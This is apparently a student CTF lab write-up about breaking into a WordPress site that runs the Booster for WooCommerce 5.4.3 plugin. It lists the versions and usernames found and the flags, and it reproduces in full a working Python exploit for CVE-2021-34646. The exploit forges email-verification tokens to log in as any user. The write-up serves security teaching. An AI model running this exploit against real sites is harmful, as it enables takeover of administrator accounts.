








# Week #4: CTF WEB

## Objective

Wordpress is a software that makes the creation and management of content and websites easy. One of its most appreciated characteristics is its modularity which allows the use of plugins to expand its functionalities, for example, with one simple plugin we can create an online store.

The plugins can be developed by anyone, which brings certain security risks. Our objective is to find if there are any vulnerabilities in the given instance of wordpress in order to bypass authentication.

## Recognition:



*Figure 1: Versions of Wordpress and plugins used.*

| Software                       | Version |
| ------------------------------ | ------- |
| Wordpress                      | 5.8.1   |
| WooCommerce Plugin             | 5.7.1   |
| Booster for WooCommerce Plugin | 5.4.3   |

We also managed to identify two usernames: **admin** and **Orval Sanford**.



*Figure 2: Some usernames of the website users.*

## Vulnerabilities

### Flag #1: flag{CVE-2021-034646}



*Figure 3: CVE-2021-34646 details (https://nvd.nist.gov/vuln/detail/CVE-2021-34646).*

### Flag #2: flag{1316ecfe4c1e0219567eb92465578de6}



*Figure 4: CVE-2021-34646 exploit (https://www.exploit-db.com/exploits/50299).*

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()

for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```



*Image 5: Executing the exploit.*



*Image 6: Opening one of the links created by the exploit.*



*Image 7: Accessing http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php with **admin** privileges.*



 *Image 8: Accessing private post.*
